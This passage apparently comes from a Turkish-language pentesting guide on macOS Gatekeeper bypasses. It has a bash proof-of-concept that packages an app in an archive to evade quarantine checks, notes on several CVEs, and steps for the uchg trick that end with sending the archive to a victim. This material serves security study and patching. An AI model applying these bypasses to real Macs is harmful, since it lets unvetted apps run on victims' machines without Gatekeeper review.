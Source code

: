 ```bash
echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```
### [CVE-2023-41067]

macOS Sonoma 14.0'da düzeltildiği bildirilen bir Gatekeeper atlatması, tasarlanmış uygulamaların onay istemeden çalışmasına izin verdi. Detaylar, yamanmadan sonra kamuya açıklandı ve sorun, düzeltmeden önce aktif olarak istismar edildi. Sonoma 14.0 veya daha yenisinin yüklü olduğundan emin olun.

### [CVE-2024-27853]

macOS 14.4'te (Mart 2024'te yayımlandı) `libarchive`'ın kötü niyetli ZIP'leri işleme şekli nedeniyle bir Gatekeeper atlatması, uygulamaların değerlendirmeden kaçmasına izin verdi. Apple'ın sorunu ele aldığı 14.4 veya daha yenisine güncelleyin.

### Üçüncü taraf arşiv açıcıların karantina yayılımını yanlış yapması (2023–2024)

Popüler çıkarım araçlarındaki (örneğin, The Unarchiver) birkaç güvenlik açığı, arşivlerden çıkarılan dosyaların `com.apple.quarantine` xattr'ını atlamasına neden oldu ve bu da Gatekeeper atlatma fırsatlarını sağladı. Test yaparken her zaman macOS Archive Utility veya yamanmış araçlara güvenin ve çıkarım sonrası xattr'ları doğrulayın.

### uchg (bu [konuşmadan](https://codeblue.jp/2023/result/pdf/cb23-bypassing-macos-security-and-privacy-mechanisms-from-gatekeeper-to-system-integrity-protection-by-koh-nakagawa.pdf))

- Bir uygulama içeren bir dizin oluşturun.
- Uygulamaya uchg ekleyin.
- Uygulamayı bir tar.gz dosyasına sıkıştırın.
- Tar.gz dosyasını bir kurbanına gönderin.
- Kurban tar.gz dosyasını açar ve uygulamayı çalıştırır.
- Gatekeeper uygulamayı kontrol etmez.

### Karantina xattr'ını Önleyin

Bir ".app" paketinde karantina xattr'ı eklenmemişse, çalıştırıldığında **Gatekeeper tetiklenmeyecek**.


## Referanslar
